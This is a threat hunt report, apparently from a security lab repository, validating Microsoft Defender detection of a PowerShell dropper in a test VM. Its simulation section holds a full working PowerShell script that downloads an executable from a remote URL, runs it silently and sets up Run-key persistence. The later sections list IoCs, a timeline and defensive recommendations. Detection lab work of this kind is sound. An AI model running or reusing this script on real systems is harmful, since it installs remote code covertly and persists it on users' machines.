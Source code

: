 # Threat Hunt Report: Silent PowerShell Dropper with Persistence

## 1. Executive Summary
This hunt investigated potential adversary behavior involving PowerShell one-liners used to download and silently install executables into `C:\ProgramData\`, followed by persistence creation via Windows Run keys. The objective was to validate whether this technique was present in the environment and to assess the effectiveness of Microsoft Defender detections.

**Result:** The scenario was successfully simulated in a controlled VM environment. Indicators were captured in Microsoft Defender Advanced Hunting queries, demonstrating the ability to detect this type of malicious activity.

---

## 2. Scope
- **Environment:** Windows 10 VM onboarded into Microsoft Defender for Endpoint
- **Timeframe:** Past 7 days
- **Data sources:**
  - DeviceProcessEvents
  - DeviceNetworkEvents
  - DeviceFileEvents
  - DeviceRegistryEvents

---

## 3. Hypothesis
If an adversary abused PowerShell to download and silently execute an `.exe` from the internet, we should observe:
1. PowerShell execution with suspicious command-line parameters.
2. File creation of an executable in `C:\ProgramData`.
3. Silent execution of that file with `/S` or `/quiet` flags.
4. Registry persistence written to `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`.

---

## 4. Actions Performed
1. **Simulation:**
   ```powershell
# Lab script using GitHub release URL
$uri = "https://github.com/charliecash310/silent-dropper-lab/releases/download/v1.0/7z2501-x64.exe"
$out = "C:\ProgramData\7z2408-x64.exe"

Write-Host "Testing connectivity to $uri ..."
try { $uriObj = [uri]$uri } catch { Write-Error "Invalid URI"; exit 1 }

# Test connection (HEAD)
try {
    $r = Invoke-WebRequest -Uri $uri -Method Head -UseBasicParsing -TimeoutSec 15 -ErrorAction Stop
    Write-Host "HEAD OK: $($r.StatusCode)"
} catch {
    Write-Warning "HEAD failed: $($_.Exception.Message) -- will try GET"
}

# Try download
try {
    Write-Host "Downloading via Invoke-WebRequest..."
    Invoke-WebRequest -Uri $uri -OutFile $out -UseBasicParsing -TimeoutSec 120 -ErrorAction Stop
    Write-Host "Downloaded to $out"
} catch {
    Write-Warning "Invoke-WebRequest failed: $($_.Exception.Message)"
    try {
        Write-Host "Trying BITS fallback..."
        Start-BitsTransfer -Source $uri -Destination $out -ErrorAction Stop
        Write-Host "BITS download completed"
    } catch {
        Write-Error "BITS failed: $($_.Exception.Message). Exiting."
        exit 1
    }
}

# Confirm file
if (-not (Test-Path $out)) { Write-Error "Download didn't produce file. Exiting."; exit 1 }

# Optional: compute SHA256 for record
try { Get-FileHash -Path $out -Algorithm SHA256 } catch {}

# Run silently (for installers that accept /S)
try {
    Start-Process -FilePath $out -ArgumentList "/S" -Wait -ErrorAction Stop
    Write-Host "Process executed (silent argument)."
} catch {
    Write-Warning "Start-Process failed (maybe not an installer): $($_.Exception.Message)"
}

# Persistence (HKCU Run key)
try {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value $out -PropertyType String -Force
    Write-Host "Created Run key -> $out"
} catch {
    Write-Warning "Failed to create Run key: $($_.Exception.Message)"
}

   ```

2. **Hunting Queries Executed:**
   - Suspicious PowerShell execution (DeviceProcessEvents)
   - Network connections initiated by PowerShell (DeviceNetworkEvents)
   - File creation in ProgramData (DeviceFileEvents)
   - Silent installer execution (DeviceProcessEvents)
   - Registry Run-key persistence (DeviceRegistryEvents)
   - Unified timeline correlation (union query)

---

## 5. Findings
- **Process Evidence:** PowerShell executed with `Invoke-WebRequest` and `/S` flags.
- **Network Evidence:** Outbound HTTP request to `<labhost>` from PowerShell.
- **File Evidence:** Creation of `7z2408-x64.exe` under `C:\ProgramData`.
- **Execution Evidence:** Silent execution of the dropped file.
- **Registry Evidence:** Run key persistence created for `Updater` pointing to the executable.

---

## 6. Indicators of Compromise (IoCs)
- **File Path:** `C:\ProgramData\7z2408-x64.exe`
- **Registry Key:** `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\Updater`
- **Process CommandLines:**
  - `powershell.exe Invoke-WebRequest -Uri https://<labhost>/7z2408-x64.exe -OutFile C:\ProgramData\7z2408-x64.exe`
  - `C:\ProgramData\7z2408-x64.exe /S`
- **Network Indicators:**
  - Remote URL: `https://<labhost>/7z2408-x64.exe`
  - RemoteIP: `<labhost IP>`

---

## 7. Timeline of Events
| Time (UTC) | Evidence Type | Details |
|------------|---------------|---------|
| T0         | Process       | PowerShell executed with download command |
| T0+1m      | Network       | HTTP GET to `<labhost>/7z2408-x64.exe` |
| T0+2m      | File          | File created in `C:\ProgramData` |
| T0+3m      | Process       | Silent execution of downloaded EXE |
| T0+4m      | Registry      | Run key persistence created |

---

## 8. Recommendations
- **Preventive Controls:**
  - Enable Attack Surface Reduction (ASR) rules:
    - Block process creations from PS/Command Prompt
    - Block executable content from email/webmail downloads
  - Restrict write access to `C:\ProgramData\`.
  - Enable PowerShell logging (ScriptBlock and Module).
- **Detection Enhancements:**
  - Create a custom detection rule for silent installers executed from ProgramData.
  - Create an alert for Run-key persistence referencing executables.
- **Response Playbook:**
  - Isolate affected host.
  - Remove malicious file and registry entry.
  - Reset credentials if compromise suspected.
  - Conduct mailbox review for related phishing attempts.

---

## 9. Conclusion
This hunt successfully validated detection coverage for a common attacker TTP (T1059.001 – PowerShell, T1547.001 – Registry Run Keys/Startup Folder). The environment is capable of identifying these behaviors, and further improvements can be made by operationalizing the detection rules into continuous monitoring.

---

## 10. Appendices
- **Screenshots:** Attach Advanced Hunting query results here.
- **KQL Queries:** Provided in the Threat Hunt Scenario README.
- **MITRE ATT&CK Mapping:**
  - **T1059.001** – PowerShell
  - **T1105** – Ingress Tool Transfer
  - **T1547.001** – Registry Run Keys/Startup Folder
